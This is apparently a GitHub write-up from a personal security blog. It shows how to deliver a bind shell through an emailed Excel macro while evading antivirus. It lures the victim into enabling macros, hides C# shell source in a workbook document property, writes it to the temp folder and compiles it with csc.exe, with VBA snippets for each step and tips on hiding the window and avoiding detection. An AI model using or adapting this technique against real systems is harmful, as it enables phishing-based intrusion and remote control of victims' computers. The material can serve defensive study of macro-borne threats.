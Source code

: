 # InfoSec_chronicles
## Abuse Excel VBA macro
###### 21/07/20 ver 1.0
In this article I will illustrate how to execute a payload loaded from a VBA macro script embedded in an Excel xlsm file.<br>
The requirement was to bypass a note AV software installed on a client machine. Following the events:
* A mail with the Excel file was sent to the client, here I play the role of the victim<br>
![Screenshot](screen/mail.png)
* The mail was not marked as Spam, the user eventually can open directly the enclosed file using the corresponding Outlook feature or download to a local folder
* Once the file has been opened of course a warning appears about the macro content. Here it is necessary to lure the user to enable the macro<br>
![Screenshot](screen/macro.png)
* If the macro is enabled the VBA script will *compile a payload*, in this case a bind shell and execute it. Here the MS firewall warn the user since I used a not common port (4444), using a port like 80 did not rise any warning<br>
![Screenshot](screen/fwarn.png)
* The bind shell is executed (a shell window will popup, you need of course to hide it), the AV will sandbox the exe file but actually the shell is executed<br/>
![Screenshot](screen/run.png)
###### *The logic*
* I embedded the source code of the bind shell in the comment property of the Excel file Here the link to the MS doc: https://docs.microsoft.com/en-us/dotnet/api/microsoft.office.tools.excel.workbook.builtindocumentproperties?view=vsto-2017 and I retrived the value in the VBA script as follows:<br>
`var = ActiveWorkbook.BuiltinDocumentProperties(5)`<br>
I used a file system object to write the source code of the shell to the *user temp folder*
```
    Dim path As String
    path = Environ("Temp")
    Dim FSO As Object
    Set FSO = CreateObject("Scripting.FileSystemObject")
    Dim oFile As Object
    Set oFile = FSO.CreateTextFile(path & "\mal.cs")
```
* Then I write the content to the file
```   
   oFile.Write var
   oFile.Close
```
* I used the same technique to get the port, that is parametric, and to initialize the wscript shell object<br>
![Screenshot](screen/propxlsm.png)
```
    Dim wSo as Object
    shellObj = ActiveWorkbook.BuiltinDocumentProperties(4)
    wSo = CreateObject(shellObj)
```
* Now we need to find a compiler on the system, I searched for the *csc.exe* since the .Net FW is installed almost on every newer Win OS and my payload is written in C#. Assuming that the full path of csc.exe is stored in the CSC variable the following will compile the source file:
```
    Dim exePath As String
    exePath = """" & path & "\mal.exe" & """"
    wSo.exec CSC & " /t:exe /out:" & exePath & " " & csPath
```
* Finally I executed the bind shell
```
wSo.exec path & "\mal.exe"
```
###### *Conclusion*
The idea is to compile a payload on the victim machine in order to avoid to downlad it from somewhere since the corresponding code will rise alerts on AV software, same thing happens trying to run a cmd or a bat file. Not talk about powershell. Of course you have to avoid to embedd well-known code or created with msfvenom since they will be detected once compiled. Be creative and code your stuff.<br>Here you can download the Excel file and the source code of the bind shell, the file is encrypted and you need a password to open it, if you are good guy ;) you can drop me an email at **filobers[at]protonmail[dot]com** and I will happy to provide it<br>

@salut
